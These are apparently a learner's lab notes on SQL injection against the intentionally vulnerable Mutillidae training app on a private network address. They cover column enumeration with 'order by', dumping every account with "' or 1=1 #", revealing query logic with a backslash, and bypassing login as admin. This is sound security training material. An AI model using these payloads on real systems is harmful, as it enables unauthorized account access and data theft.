 URL after entering the correct data
```url
http://10.0.3.5/mutillidae/index.php?page=user-info.php&username=bill&password=P%40ssw0rd&user-info-php-submit-button=View+Account+Details
```

To find out if you can use SQL we can add something to the URL to check, for example after the username add:
```sql
' order by 1 %23
```
- %23 - URL encoded version of #
- The comment tells the site to ignore everything after it and sees it as a comment.
- You could also find out how many columns are in the table using this method, you would keep increasing the order number until it returns an error.

Payload
```url
http://10.0.3.5/mutillidae/index.php?page=user-info.php&username=bill' order by 1 %23&password=P%40ssw0rd&user-info-php-submit-button=View+Account+Details
```
- Shows if you can use SQL injection or not

Taking a break here because i can't get the sql to work and it looks like it's using the wrong database even though i updated it in the `config.inc`. After restarting the servers it seems as if it's working now. This time i'm not logged in. I was in the wrong area which is why this didn't work the first time.

**User Info**

 Continuing from Owasp top 10 >  A1 - Injection > SQL - Extra Data > User Info

I get the admin details with:
username: admin
password: adminpass

I add a `\` in the username field which throws an error and provides the logic of the database:
```sql
SELECT * FROM accounts WHERE username='\' AND password=''
```

Retrieving all of the accounts details:
```sql
' or 1=1 #
```

What this would look like:
```sql
SELECT * FROM accounts WHERE username='' or 1=1 # AND password=''
```

**Bypass Authentication**

**Make sure you're in the correct area, as follows:**
Owasp top 10 >  A1 - Injection > SQL > Bypass Authentication > Login

Again, i can use the backslash character `\` to find out the logic. Here i can use the same payload to login as the admin account.
